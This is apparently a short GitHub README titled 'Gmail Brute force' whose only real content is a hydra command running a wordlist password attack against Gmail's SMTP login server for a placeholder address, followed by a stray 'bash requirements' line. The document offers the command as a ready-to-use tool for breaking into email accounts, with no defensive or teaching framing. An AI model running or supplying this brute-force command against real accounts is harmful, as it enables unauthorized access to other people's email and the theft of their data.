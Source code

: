# hy

***Gmail Brute force***

```
hydra -S -l exempo@gmail.com -P caminhodawordlist.txt -v -V -e ns 465 smtp.gmail.com smtp
```

```
bash requirements
```
